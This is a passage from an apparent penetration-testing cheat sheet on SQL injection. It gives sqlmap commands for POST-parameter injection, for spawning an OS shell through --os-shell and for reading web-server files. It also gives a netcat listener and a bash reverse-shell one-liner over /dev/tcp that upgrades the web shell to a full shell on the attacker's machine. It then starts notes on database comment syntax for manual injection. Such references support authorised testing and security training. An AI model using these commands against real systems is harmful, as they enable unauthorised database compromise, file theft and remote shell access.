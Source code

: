         # POST request
        sqlmap -u "http://<target-ip>" --data="username=test&password=test"
        ```

    - **Web Shell**

        Add option "--os-shell" to interact with web shell.

        ```sh
        sqlmap -u "http://<target-ip>" --cookie="value=*" --os-shell
        ```

        After activating, you may want to upgrade to the full functional shell.  
        You can do that using reverse shell.

        In your local machine,

        ```sh
        nc -lvnp 4444
        ```

        Then execute the following command in web shell.

        ```sh
        os-shell> bash -c 'bash -i >& /dev/tcp/<your-local-ip>/4444 0>&1'
        ```

    - **Read File**

        ```sh
        # --batch: never ask for user input, use the default behavior
        sqlmap -r request.txt --file-read "/var/www/html/index.php" --time-sec 10 --batch
        sqlmap -r request.txt --file-read "/var/www/<subdomain>/index.php" --time-sec 10 --batch

        sqlmap -u "http://<target-ip>/?q=test" --file-read "var/www/html/index.php" --time-sec 10 --batch
        ```

<br />

## Manual Injection

- **Comments**

    ```
    MSSQL       ->  --
    MySQL       ->  #
    Oracle      ->  --
    PostreSQL   ->  --
    ```

- **Versions**

    - **MSSQL**
